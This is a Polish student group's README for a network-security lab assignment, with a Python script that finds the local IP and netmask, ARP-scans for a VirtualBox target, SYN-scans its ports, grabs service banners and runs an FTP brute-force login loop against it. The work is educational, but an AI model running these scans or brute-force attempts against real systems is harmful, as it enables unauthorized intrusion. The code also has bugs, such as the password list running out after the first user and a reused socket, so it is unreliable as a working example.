 # Projekt-JDD

Grupa w składzie:
- Jerzy Tarasiewicz
- Damian Tomala
- Dorota Gliniak

Grupa podjęła decyzję o tym aby wszystkie 6 zadań były w jednym pliku pod tytułem "project.py".

# Zadanie numer 1:
Ustalić własny IP.
W terminalu wykonaliśmy polecenie (ip a)
Załączniki w postaci screenshotów:
-Zadanie 1 SS1
-Zadanie 1 SS2

# Zadanie numer 2:
Ustalić maskę podsieci.
W terminalu wykonalismy polecenie (ifconfig)
Załączniki w postaci screenshotów:
- Zadanie 2 SS1
- Zadanie 2 SS2

# Zadanie numer 3:
Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu.

Otworzyliśmy VBox i sprawdziliśmy MAC adres celu. Po czym ustaliliśmy adres IP celu na podstawie zadania 1 oraz 2.
Załączniki w postaci screenshotów:
- Zadanie 3 SS1
- Zadanie 3 SS2

# Zadanie numer 4:
Ustalić otwarte porty na atakowanej maszynie.

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 5:
Ustalić nazwę oraz wersję oprogramowania dla wszystkich znalezionych usług (banner grabbing).

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 6:
Przeprowadzić atak brute-force na dowolną znalezioną usługę (nie musi się udać).

Załączniki w postaci screenshotów:
- Zadanie 6 SS1



# KOD

######################## 1 - GET LOCAL IP ADDRESS ################################
import socket

def get_local_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.connect(('10.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

local_ip = get_local_ip()
print(local_ip)

##################################### 2 - GET MASK ADDRESS #####################################

from pyroute2 import IPRoute
ip = IPRoute()
info = [{'iface': x['index'], 'addr': x.get_attr('IFA_ADDRESS'), 'mask':  x['prefixlen']} for x in ip.get_addr()]

print(info)
a = info[1]

for k, v in a.items():
    if k == 'mask':
        print(v)
        break
masks = {0:'0.0.0.0', 1:'128.0.0.0', 2:'192.0.0.0', 3:'224.0.0.0', 4:'240.0.0.0', 5:'248.0.0.0', 6:'252.0.0.0', 7:'254.0.0.0', 8:'255.0.0.0', 9:'255.128.0.0', 10:'255.192.0.0', 11:'255.224.0.0', 12:'255.240.0.0', 13:'255.248.0.0', 14:'255.252.0.0', 15:'255.254.0.0', 16:'255.255.0.0', 17:'255.255.128.0', 18:'255.255.192.0', 19:'255.255.224.0', 20:'255.255.240.0', 21:'255.255.248.0', 22:'255.255.252.0', 23:'255.255.254.0', 24:'255.255.255.0', 25:'255.255.255.128', 26:'255.255.255.192', 27:'255.255.255.224', 28:'255.255.255.240', 29:'255.255.255.248', 30:'255.255.255.252', 31:'255.255.255.254', 32:'255.255.255.255'}

for index, mask in masks.items():

    if index == v:
        index == mask
        print("netmask: ", mask)
        break

####################################### 3 - Looking for target IP ########################################


from scapy.all import *
from scapy.layers.inet import IP, TCP, Ether
from scapy.layers.l2 import ARP

for i in range(100, 105):
    ip = "192.168.0.{}".format(i)
    pakiet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip, hwdst="ff:ff:ff:ff:ff:ff")
    dane = srp1(pakiet, timeout=1, verbose=0)
    target_MAC = '08:00:27:89:f6:2e'

    if dane:
        print("adres IP: {}, adres MAC: {}".format(str(dane.psrc), str(dane.hwsrc)))
        if target_MAC == dane.hwsrc:
            print("Target IP: ", str(dane.psrc))
            target_IP = dane.psrc

################################## 4 - Ports scaning #####################################

cel = target_IP
pakiet = IP(dst="google.com")/ICMP()/"Projekt"
for port in range(22):
    pakiet = IP(dst=cel)/TCP(dport=[port], flags = "S")
    rec, wrong = sr(pakiet, timeout=1, verbose=0) #timeout - dlugosc zycia, verbose - ilosc wyswietlanych inf zwrotnych 0 - 3
    print(rec)
    if rec:
        usluga = "{}".format(str(str(rec[0]).split(" ")[7][6:]))
        dane = f"Port: {port} otwarty, usluga = {usluga}"
        print(dane)
    else:
        print(f"{port} Port zablokowany")
# print(rec)

################################## 5 - Banner Grabbing #####################################

import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

target = target_IP

for port in range(1, 65000):
    try:
        connection = s.connect((target, port))
        print(f"[+] {target}: port {port} is OPEN")
        s.send("Get banner \r\n".encode())
        response = s.recv((2048)).decode()
        print("Name and version service: ", response)
    except:
#        print(f"[-] {target}: port {port} is CLOSED")
        pass

############################################ 6 - Brute Force ########################################

import ftplib
users = open("usernames.txt", "r")
# passwords = open("passlist.txt", "r")

passwords = open("testpass.txt", "r") # original password file - passlist.txt

target = target_IP
for user in users:
    for password in passwords:
        print(f"Trying> {user}:{password}")

        try:
            ftp_server = ftplib.FTP()
            ftp_server.connect(target, 21, timeout=2)
            ftp_server.login(user, password)
            print("[+] Login successful.")
            ftp_server.close()
        except Exception as exc:
            print("[-] Brute-force attack failed!")
